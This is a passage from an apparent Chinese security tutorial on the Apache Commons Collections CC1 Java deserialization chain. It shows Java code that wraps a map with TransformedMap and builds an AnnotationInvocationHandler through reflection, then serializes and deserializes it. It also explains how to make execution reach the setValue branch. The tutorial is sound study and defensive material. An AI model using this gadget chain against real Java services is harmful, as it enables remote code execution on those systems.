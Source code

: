 所以这里我们就要找到一个有函数名的注释类，然后将 map 中的 key 改成对应的函数名称：

[![](assets/1701612311-a09892856b5d62f7acaa403d20ec4b96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235130-f7c98618-20cb-1.png)

```bash
HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
```

再进行一次调试我们就发现能够进入 if 语句了：

[![](assets/1701612311-e56ca55fe8d485c154e550dbab44214f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235136-fbab84d4-20cb-1.png)

#### `transform`中 value 设置：

我们发现 setValue 里面并不是我们想要传的值

